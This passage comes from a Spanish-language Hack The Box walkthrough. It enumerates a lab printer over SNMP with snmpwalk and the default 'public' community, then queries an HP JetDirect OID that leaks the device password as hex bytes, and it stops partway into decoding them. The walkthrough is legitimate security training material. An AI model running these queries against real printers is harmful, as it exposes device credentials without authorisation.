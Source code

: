 Como puedes ver, los **OIDs** de **SNMP** aparecen como números (que en realidad son del **arból OID**), para cambiar eso, modificamos el archivo **/etc/snmp/snmp.config** que se instalo de la librería y comentamos la única línea que no está comentada:
```bash
nano /etc/snmp/snmp.conf
# mibs :
```

Volvemos a probar y nos debería marcar como menciona el manual:
```bash
snmpwalk -v1 -c public 10.10.11.107
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
```
Listo. 

Ahora sí, vamos a utilizar cualquier ejemplo de la herramienta que nos muestran en la página web, pero con un **OID** que sería el **1** para ir desde la raíz:
```bash
snmpwalk -v1 -c public 10.10.11.107 1
SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
SNMPv2-SMI::enterprises.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
```
Si intentas con otro número que no sea 1, saldrá error.

En la siguiente página, nos indican que tenemos **OIDs** que pueden mostrar directamente la contraseña de **JetDirect**:
* <a href="https://www.irongeek.com/i.php?page=security/networkprinterhacking" target="_blank">Hacking Network Printers (Mostly HP JetDirects, but a little info on the Ricoh Savins)</a>

Vamos a intentarlo:
```bash
snmpwalk -v1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
Excelente, si funciono.

Veo que nos muestra varios números en hexadecimal, vamos a tratar de descifrar que son estos números.

<h2 id="Hexa">Descifrando Números Hexadecimales</h2>

Lo que haremos, será convertir los números hexadecimales en binario para ver si hay algún mensaje oculto.

Primero copiemos los números en nuestra máquina:
```bash
echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135"                     
50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135
```
